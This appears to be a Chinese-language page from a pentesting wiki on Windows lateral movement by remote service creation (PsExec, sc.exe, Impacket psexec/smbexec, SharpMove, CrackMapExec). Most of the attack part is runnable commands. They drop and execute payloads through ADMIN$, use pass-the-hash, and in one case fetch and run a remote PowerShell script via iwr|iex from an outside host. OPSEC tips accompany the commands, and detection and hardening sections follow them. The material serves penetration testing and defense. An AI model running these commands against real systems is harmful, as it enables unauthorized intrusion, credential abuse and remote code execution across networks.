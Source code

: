 # PsExec/Winexec/ScExec/SMBExec

{{#include ../../banners/hacktricks-training.md}}

## 它们是如何工作的

这些技术通过 SMB/RPC 远程滥用 Windows 服务控制管理器 (SCM) 在目标主机上执行命令。常见流程如下：

1. 通过 SMB (TCP/445) 认证到目标并访问 ADMIN$ 共享。
2. 复制可执行文件或指定服务将运行的 LOLBAS 命令行。
3. 通过 SCM (MS-SCMR over \PIPE\svcctl) 远程创建一个指向该命令或二进制文件的服务。
4. 启动服务以执行有效载荷，并可选择通过命名管道捕获 stdin/stdout。
5. 停止服务并清理（删除服务和任何丢弃的二进制文件）。

要求/前提条件：
- 目标上的本地管理员权限 (SeCreateServicePrivilege) 或明确的服务创建权限。
- 可访问 SMB (445) 和可用的 ADMIN$ 共享；主机防火墙允许远程服务管理。
- UAC 远程限制：使用本地帐户时，令牌过滤可能会阻止网络上的管理员访问，除非使用内置管理员或 LocalAccountTokenFilterPolicy=1。
- Kerberos 与 NTLM：使用主机名/FQDN 启用 Kerberos；通过 IP 连接通常会回退到 NTLM（并可能在加固环境中被阻止）。

### 通过 sc.exe 手动 ScExec/WinExec

以下展示了一种最小的服务创建方法。服务映像可以是丢弃的 EXE 或像 cmd.exe 或 powershell.exe 这样的 LOLBAS。
```cmd
:: Execute a one-liner without dropping a binary
sc.exe \\TARGET create HTSvc binPath= "cmd.exe /c whoami > C:\\Windows\\Temp\\o.txt" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc

:: Drop a payload to ADMIN$ and execute it (example path)
copy payload.exe \\TARGET\ADMIN$\Temp\payload.exe
sc.exe \\TARGET create HTSvc binPath= "C:\\Windows\\Temp\\payload.exe" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc
```
注意：
- 启动非服务 EXE 时，预计会出现超时错误；执行仍然会发生。
- 为了保持更好的 OPSEC，建议使用无文件命令（cmd /c, powershell -enc）或删除已丢弃的工件。

在此处找到更详细的步骤： https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

## 工具和示例

### Sysinternals PsExec.exe

- 经典的管理工具，使用 SMB 在 ADMIN$ 中丢弃 PSEXESVC.exe，安装一个临时服务（默认名称 PSEXESVC），并通过命名管道代理 I/O。
- 示例用法：
```cmd
:: Interactive SYSTEM shell on remote host
PsExec64.exe -accepteula \\HOST -s -i cmd.exe

:: Run a command as a specific domain user
PsExec64.exe -accepteula \\HOST -u DOMAIN\user -p 'Passw0rd!' cmd.exe /c whoami /all

:: Customize the service name for OPSEC (-r)
PsExec64.exe -accepteula \\HOST -r WinSvc$ -s cmd.exe /c ipconfig
```
- 您可以通过 WebDAV 直接从 Sysinternals Live 启动：
```cmd
\\live.sysinternals.com\tools\PsExec64.exe -accepteula \\HOST -s cmd.exe /c whoami
```
OPSEC
- 留下服务安装/卸载事件（服务名称通常为 PSEXESVC，除非使用 -r），并在执行期间创建 C:\Windows\PSEXESVC.exe。

### Impacket psexec.py (类似 PsExec)

- 使用嵌入式 RemCom 类服务。通过 ADMIN$ 投放一个临时服务二进制文件（通常是随机名称），创建一个服务（默认通常为 RemComSvc），并通过命名管道代理 I/O。
```bash
# Password auth
psexec.py DOMAIN/user:Password@HOST cmd.exe

# Pass-the-Hash
psexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST cmd.exe

# Kerberos (use tickets in KRB5CCNAME)
psexec.py -k -no-pass -dc-ip 10.0.0.10 DOMAIN/user@host.domain.local cmd.exe

# Change service name and output encoding
psexec.py -service-name HTSvc -codec utf-8 DOMAIN/user:Password@HOST powershell -nop -w hidden -c "iwr http://10.10.10.1/a.ps1|iex"
```
Artifacts
- 临时 EXE 在 C:\Windows\ (随机 8 个字符)。服务名称默认为 RemComSvc，除非被覆盖。

### Impacket smbexec.py (SMBExec)

- 创建一个临时服务，生成 cmd.exe 并使用命名管道进行 I/O。通常避免放置完整的 EXE 有效载荷；命令执行是半交互式的。
```bash
smbexec.py DOMAIN/user:Password@HOST
smbexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST
```
### SharpLateral 和 SharpMove

- [SharpLateral](https://github.com/mertdas/SharpLateral) (C#) 实现了几种横向移动方法，包括基于服务的执行。
```cmd
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```
- [SharpMove](https://github.com/0xthirteen/SharpMove) 包括服务修改/创建以远程执行命令。
```cmd
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
- 您还可以使用 CrackMapExec 通过不同的后端（psexec/smbexec/wmiexec）执行：
```bash
cme smb HOST -u USER -p PASS -x "whoami" --exec-method psexec
cme smb HOST -u USER -H NTHASH -x "ipconfig /all" --exec-method smbexec
```
## OPSEC, detection and artifacts

使用类似PsExec技术时的典型主机/网络伪影：
- 针对所用管理员帐户的安全4624（登录类型3）和4672（特殊权限）。
- 安全5140/5145文件共享和文件共享详细事件显示ADMIN$访问和服务二进制文件的创建/写入（例如，PSEXESVC.exe或随机8字符的.exe）。
- 目标上的安全7045服务安装：服务名称如PSEXESVC、RemComSvc或自定义（-r / -service-name）。
- Sysmon 1（进程创建）用于services.exe或服务映像，3（网络连接），11（文件创建）在C:\Windows\中，17/18（管道创建/连接）用于管道，如\\.\pipe\psexesvc、\\.\pipe\remcom_*或随机等效项。
- Sysinternals EULA的注册表伪影：HKCU\Software\Sysinternals\PsExec\EulaAccepted=0x1在操作员主机上（如果未被抑制）。

狩猎思路
- 对于ImagePath包含cmd.exe /c、powershell.exe或TEMP位置的服务安装发出警报。
- 查找父映像为C:\Windows\PSEXESVC.exe或作为LOCAL SYSTEM运行的services.exe子进程的进程创建。
- 标记以-stdin/-stdout/-stderr结尾的命名管道或知名的PsExec克隆管道名称。

## Troubleshooting common failures
- 创建服务时访问被拒绝（5）：不是实际的本地管理员，UAC对本地帐户的远程限制，或EDR对服务二进制路径的篡改保护。
- 网络路径未找到（53）或无法连接到ADMIN$：防火墙阻止SMB/RPC或管理员共享被禁用。
- Kerberos失败但NTLM被阻止：使用主机名/FQDN连接（而不是IP），确保正确的SPN，或在使用Impacket时提供-k/-no-pass和票证。
- 服务启动超时但有效载荷已运行：如果不是实际的服务二进制文件则是预期的；将输出捕获到文件或使用smbexec进行实时I/O。

## Hardening notes
- Windows 11 24H2和Windows Server 2025默认要求出站（以及Windows 11入站）连接的SMB签名。这不会破坏使用有效凭据的合法PsExec使用，但会防止未签名的SMB中继滥用，并可能影响不支持签名的设备。
- 新的SMB客户端NTLM阻止（Windows 11 24H2/Server 2025）可能会在通过IP连接或连接到非Kerberos服务器时阻止NTLM回退。在强化环境中，这将破坏基于NTLM的PsExec/SMBExec；如果确实需要，请使用Kerberos（主机名/FQDN）或配置例外。
- 最小权限原则：最小化本地管理员成员资格，优先使用及时/足够管理员，强制执行LAPS，并监控/警报7045服务安装。

## See also

- 基于WMI的远程执行（通常更无文件）：

{{#ref}}
./wmiexec.md
{{#endref}}

- 基于WinRM的远程执行：

{{#ref}}
./winrm.md
{{#endref}}



## References

- PsExec - Sysinternals | Microsoft Learn: https://learn.microsoft.com/sysinternals/downloads/psexec
- Windows Server 2025和Windows 11中的SMB安全强化（默认签名，NTLM阻止）： https://techcommunity.microsoft.com/blog/filecab/smb-security-hardening-in-windows-server-2025--windows-11/4226591

{{#include ../../banners/hacktricks-training.md}}
